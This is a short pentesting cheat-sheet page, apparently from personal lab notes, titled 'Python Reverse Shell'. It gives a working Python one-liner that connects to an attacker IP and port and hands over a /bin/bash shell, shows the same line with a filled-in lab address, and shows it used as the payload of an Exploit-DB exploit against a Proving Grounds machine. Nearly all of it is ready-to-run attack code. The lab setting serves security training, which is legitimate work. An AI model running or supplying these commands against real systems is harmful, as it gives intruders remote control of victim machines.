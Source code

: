 ## Python Reverse Shell

> Note: single quotes were avoided so that it can be wrapped in `'`${SHELL}`'`

Replace `${ATTACKER_IP}` and `${ATTACKER_LISTENER_PORT}` below:

```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"${ATTACKER_IP}\",${ATTACKER_LISTENER_PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```

e.g.

```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.59\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```

Used in practice:

> As in proving-grounds "Bratarina" ([write-up](./../../../write-ups/proving-grounds/warm-up/easy/2024-02-26-Bratarina/README.md)).

```
python /usr/share/exploitdb/exploits/linux/remote/47984.py 192.168.59.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.59\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```

